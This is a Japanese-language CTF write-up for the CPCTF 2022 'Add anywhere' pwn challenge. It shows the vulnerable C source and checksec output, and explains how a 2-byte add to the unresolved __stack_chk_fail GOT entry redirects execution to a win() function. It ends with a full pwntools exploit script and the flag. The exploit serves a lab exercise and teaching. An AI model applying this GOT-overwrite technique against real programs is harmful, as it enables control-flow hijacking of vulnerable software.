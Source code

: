 # CPCTF 2022 `Add anywhere [pwn]` writeup

## 問題
任意アドレス書き込みは怖いけどこれなら...?

`nc add-anywhere.cpctf.space 30014`

実行ファイルとソースコードが配られる。

```c
#include <stdio.h>
#include <stdlib.h>

void win(){
  system("cat /home/user/flag");
}

int main(){
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  void *addr = NULL;
  short num = 0;
  char comment[20];

  puts("You can add a little value to any addr!");
  printf("addr> ");
  scanf("%p",&addr);
  printf("val> ");
  scanf("%hd",&num);

  * (short *)addr += num;

  puts("Any comment?");
  scanf("%28s",comment);

  return 0;
}
```

## 解法
ソースコードを見ると、任意のアドレスに2バイトの値 (short型で宣言されたnum)を加算できるらしい。
これを利用してGOTを書き換えられれば嬉しいところ。

セキュリティ周りを確認する。
```
[*] '/home/caffeine/ctf/cpctf22/pwn/add_anywhere/add-anywhere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Partial RELROなので目論見通りGOT overwriteが狙えそう。
加えてNo PIEなので実行領域の関数は必ず同じアドレスに読みだされる。
何かしらの関数のリンクをwin関数のアドレスに書き換えられればクリア。

しかしながら、今回の問題はGOTの完全な書き換えは叶いません。
2バイトまでの値が加算できるまで。
Partial RELROの場合、一度も呼び出されていない関数のGOTは.pltセクション内の動的リンクを担う関数のアドレスで初期化されている。
関数が初めて呼び出された際に動的リンクが起動して初めてlibc上のアドレスがGOTに書き込まれる。
libc上のアドレスを2バイト弄ったくらいでは実行領域にあるwin関数のアドレスにはたどりつけない。
まだ一度も実行されておらず、libc上のアドレスでGOTが書き換えられていない関数を見つけて値を書き換える必要がありそう。

ソースコードを見たところ、一見該当しそうな関数はないように思える。
しかしながら今回はBoFを防ぐためのcanaryがある。
__stack_chk_fail関数がシンボル解決前なのでこれをターゲットにする。

## Exploit
win関数のアドレスやGOT上の__stack_chk_fail関数のアドレスなど必要なアドレスをリークする (objdumpやgdbを用いればいいでしょう)。

あとは
+ __stack_chk_fail関数のGOT上のアドレス
+ あらかじめ計算しておいたwin関数のアドレスとGOTの__stack_chk_fail関数のエントリの差分
+ バッファオーバーフローが発生するような冗長なバイト列

を順に送り込めば完成。
以上を踏まえてexploit codeを作成する。

```py
import pwn
import sys

addr_win = 0x4011d6
addr_stack_chk_fail_plt = 0x4010a0
addr_stack_chk_fail_got = 0x404020
addr_stack_chk_fail_got_init = 0x401040
addr_puts_glibc = 0x404018

num =  addr_win - addr_stack_chk_fail_got_init

io = pwn.remote("add-anywhere.cpctf.space",30014)

ret = io.recvuntil("addr> ")
print(ret)

s = hex(addr_stack_chk_fail_got).encode()
io.sendline(s)
print(s)

ret = io.recvuntil("val> ")
print(ret)

s = str(num).encode()
io.sendline(s)
print(s)

ret = io.recvline()
print(ret)

s = b"A" * 40
io.sendline(s)

ret = io.recvline()
print(ret)
```

FLAG: `CPCTF{stack_smashing_to_win}`